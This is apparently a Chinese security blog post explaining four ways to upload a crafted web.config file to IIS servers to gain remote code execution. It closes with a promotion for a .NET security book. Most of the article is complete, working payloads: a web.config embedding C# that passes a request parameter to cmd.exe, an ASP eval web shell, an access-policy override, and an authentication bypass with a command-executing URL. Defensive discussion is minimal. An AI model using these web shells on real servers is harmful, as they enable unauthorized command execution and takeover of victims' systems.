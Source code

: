 #  .NET 四种方法上传 web.config 绕过限制实现RCE   
原创 专攻.NET安全的  dotNet安全矩阵   2025-04-03 08:55  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1YibJO9SDRBvE01T4A1oYJXlTBTMvb7KbAf7z9hY3VQUeayWI61XqQ0ricUQ8G1FykKHBNwCqpV792qg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
在 .NET Web 应用安全领域，web.config  
 文件不仅仅是一个普通的配置文件，还能成为攻击者绕过安全限制、执行任意代码的重要工具。  
最近，一篇关于某电力公司 web.config  
 RCE 的文章在安全圈引发了热议，详细描述了攻击者如何利用 web.config  
 实现远程代码执行，并成功获取系统控制权限。  
本篇文章将系统性地介绍 **四种 基于 web.config 绕过限制并执行代码的技术**  
，结合真实案例，深入剖析其利用方式及相应防御措施。  
  
**01. 作为.NET脚本执行**  
  
  
  
当 IIS 服务器 **仅支持 .NET 运行环境**  
，且无法上传 .aspx  
、.asmx  
、.soap  
 等扩展名的文件时，攻击者可以尝试上传特制的 web.config  
，让其作为 .NET 脚本运行。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9TdNcryY8eHrGiajzVTAwUbGe4SlRIrKtzgsJbdBVtBWnEhrR7PtoTJed8CFTZ6ICnSfkUnITPlbg/640?wx_fmt=png&from=appmsg "")  
## 1.1 利用方式  
  
攻击者可以上传以下 web.config  
 文件，使其 .config  
 文件扩展名被当作 .aspx  
 解析，并执行动态 .NET 代码：  
  
```
<configuration>    <system.web>        <compilation defaultLanguage="cs">            <buildProviders>                <add extension=".config" type="System.Web.Compilation.PageBuildProvider" />            </buildProviders>        </compilation>        <httpHandlers>            <add path="web.config" type="System.Web.UI.PageHandlerFactory" verb="*" />        </httpHandlers>    </system.web></configuration><%if (flag){    System.Diagnostics.Process process = new System.Diagnostics.Process();    process.StartInfo.FileName = "cmd.exe";    string str = Request["c"];    process.StartInfo.Arguments = "/c " + str;    process.StartInfo.RedirectStandardOutput = true;    process.StartInfo.RedirectStandardError = true;    process.StartInfo.UseShellExecute = false;    process.Start();    string str2 = process.StandardOutput.ReadToEnd();    Response.Write("<pre>" + str2 + "</pre>");    Response.Flush();    Response.End();}%>
```  
  
## 1.2 执行效果  
  
攻击者访问以下 URL，可直接执行系统命令：upload/web.config?c=tasklist，如下图所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9TdNcryY8eHrGiajzVTAwUbl2NAb7Wicu3VoKePTfxsYKhibmEzzlNUefeibxXQVRkziayZqzPCmzumTg/640?wx_fmt=png&from=appmsg "")  
  
注意：web.config必须上传到 **站点根目录**  
，否则可能无法解析。  
  
**02. 作为ASP脚本执行**  
  
  
  
**如果 IIS 支持 ASP 运行环境，但无法上传 .asp 文件，攻击者可以上传 web.config，使其作为 ASP 代码解析。**  
## 2.1 利用方式  
  
**上传以下 web.config，让 .config 文件扩展名被当作 .asp 解析，并执行 ASP 代码：**  
  
```
<configuration>    <system.webServer>        <handlers accessPolicy="Read, Script, Write">            <add name="web_config" path="*.config" verb="*"                  modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll"                  resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        </handlers>        <security>            <requestFiltering>                <fileExtensions>                    <remove fileExtension=".config" />                </fileExtensions>                <hiddenSegments>                    <remove segment="web.config" />                </hiddenSegments>            </requestFiltering>        </security>    </system.webServer></configuration><!--<%Response.write("->"&1+2&"<-")on error resume nextif execute(request("dotnet")) <>"" then execute(request("dotnet"))%>-->
```  
## 2.2 执行效果  
  
**攻击者访问以下 URL，可执行任意 ASP 代码，页面返回当前服务器的系统时间，证明代码执行成功。**  
  
```
/upload/web.config?dotnet=response.write(now())
```  
  
  
**注意：服务器 必须支持 ASP，否则无法解析 .config 作为 ASP 代码。**  
  
****  
**03. 绕过策略限制**  
  
****  
  
****  
  
**某些情况下，管理员会通过 web.config 禁止 uploads/ 目录执行脚本，但仍允许上传文件。攻击者可以上传新的 web.config 重新启用脚本执行权限。**  
## 3.1 利用方式  
  
**上传以下 web.config，重新开放 uploads/ 目录的脚本执行权限：**  
  
```
 
<configuration>    <system.webServer>        <handlers accessPolicy="Read, Write">        </handlers>    </system.webServer></configuration>
<configuration>    <system.webServer>        <handlers accessPolicy="Read, Write">        </handlers>    </system.webServer></configuration>
```  
## 3.2 执行效果  
  
**攻击者上传 Shell2asmx.soap 后被禁止运行，如下图所示。**  
  
****  
**但此时修改accessPolicy策略，添加写入、执行、运行脚本权限。即accessPolicy="Read,Write,Execute,Script"，再向uploads目录下上传新配置的这个web.config，即可打开正常界面，如下图所示**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9TdNcryY8eHrGiajzVTAwUbbO0HTdYVYias7SvVpCcmiaAFB8agE9mS47Qg9OCSWFlDkSTSvqGovCzQ/640?wx_fmt=png&from=appmsg "")  
**04. 绕过身份认证.NET web.config 可用于身份认证，默认会拒绝匿名用户访问。只有已登录用户才能访问该目录，一切的匿名访问都被重定向至登录页，重定向的URL地址如下所示。最新研究成果：攻击者可以上传 web.config 重新开放目录权限，并执行任意代码。4.1 利用方式上传以下 web.config，绕过身份认证： <configuration>    <system.web>        <authorization>            <allow users="*" />        </authorization>    </system.web></configuration>然后访问 URL 执行系统命令： /upload/web.config?dotnet=Response.Write(GetObject("new:72C24DD5-D70A-438B-8A42-98424B88AFB8").exec("cmd.exe /c tasklist").StdOut.ReadAll())该请求会利用 Response.Write 输出 cmd.exe /c tasklist 的执行结果，即当前系统的进程列表，如下图所示。05. 扩展阅读学习以上知识点已收录于新书《.NET安全攻防指南》第25.1.3节，并且有完整分析 web.config 绕过限制并执行代码的技术，并提供详细的攻防实践！全书共计25章，总计1010页，分为上下册，横跨.NET Web代码审计与红队渗透两大领域。上册深入剖析.NET Web安全审计的核心技术，帮助读者掌握漏洞发现与修复的精髓；下册则聚焦于.NET逆向工程与攻防对抗的实战技巧，揭秘最新的对抗策略与技术方法。自《.NET安全攻防指南》上线以来，许多读者已抢先下单成功购入并收到了书籍，反响热烈，好评如潮！感谢大家的支持与肯定，我们也将持续为大家带来更多优质的.NET安全研究成果！原价258元，现限量优惠，全套仅售141元，数量有限！点击京东链接：https://item.jd.com/10140917044329.html 或者打开手机京东APP即可下单购买。**  
  
  
